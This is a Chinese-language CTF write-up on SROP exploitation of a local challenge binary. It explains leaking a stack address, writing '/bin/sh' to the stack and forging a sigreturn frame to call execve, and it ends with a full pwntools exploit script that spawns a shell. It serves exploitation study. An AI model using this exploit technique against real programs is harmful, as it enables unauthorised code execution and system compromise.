


# SROP

srop 实质是一个系统调用，这个系统调用是从栈上取值，恢复寄存器状态的一个系统调用，其系统调用号为 0xf ，rt_sigreturn 

原理图：



如果是这样，那么我们是不是能够控制 rax = 0x3b ，rdi -> binsh ，rsi -> rdx -> 0 ，rip -> syscall ，就可以执行 execev('/bin/sh', 0, 0) 系统调用了。

为了达到这样的攻击目标，我们首先要先能控制 rax = 0xf ，并且能够执行 syscall 指令，这样才能调用 rt_sigreturn 



题目里面，可以发现 pop rax; syscall ; 这样的指令，就可以控制 rax ，并且执行 syscall 指令了。

接下来，就是 binsh ，那么要如何找到呢 ？ 

通过第二个 write 泄露内存信息漏洞，我们可以泄露出栈地址，而栈空间是我们能够写入数据的，那么我们便可以写入 /bin/sh ,最后通过 调试 + 计算得出 /bin/sh 的地址

```py
debug('b *0x4011ee')

sa(b'hacker!\n', b'/bin/sh\x00'*2 + p64(elf.sym['vuln']))
stack = l64()
binsh = stack - 0x28


lg('stack', stack)
```

但我们能够得到 /bin/sh 地址之后，就是我们的 srop 漏洞利用了

exp

```py
from pwn import *
from struct import pack
from ctypes import *
import base64
#from LibcSearcher import *

def debug(c = 0):
    if(c):
        gdb.attach(p, c)
    else:
        gdb.attach(p)
        pause()
def get_sb() : return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
#-----------------------------------------------------------------------------------------
s = lambda data : p.send(data)
sa  = lambda text,data  :p.sendafter(text, data)
sl  = lambda data   :p.sendline(data)
sla = lambda text,data  :p.sendlineafter(text, data)
r   = lambda num=4096   :p.recv(num)
rl  = lambda text   :p.recvuntil(text)
pr = lambda num=4096 :print(p.recv(num))
inter   = lambda        :p.interactive()
l32 = lambda    :u32(p.recvuntil(b'\xf7')[-4:].ljust(4,b'\x00'))
l64 = lambda    :u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
uu32    = lambda    :u32(p.recv(4).ljust(4,b'\x00'))
uu64    = lambda    :u64(p.recv(6).ljust(8,b'\x00'))
int16   = lambda data   :int(data,16)
lg= lambda s, num   :p.success('%s -> 0x%x' % (s, num))
#-----------------------------------------------------------------------------------------

context(os='linux', arch='amd64', log_level='debug')
p = process('./srop')
elf = ELF('./srop')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

rax_syscall = 0x4011ed
syscall = 0x4011da

#debug('b *0x4011ee')

sa(b'hacker!\n', b'/bin/sh\x00'*2 + p64(elf.sym['vuln']))
stack = l64()
binsh = stack - 0x28

# pwntools 
sigframe = SigreturnFrame()
sigframe.rax = 0x3b
sigframe.rdi = binsh
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall

sleep(1)
s(b'a'*0x10 + p64(rax_syscall) + p64(0xf) + flat(sigframe))

lg('stack', stack)
#pause()

inter()

```

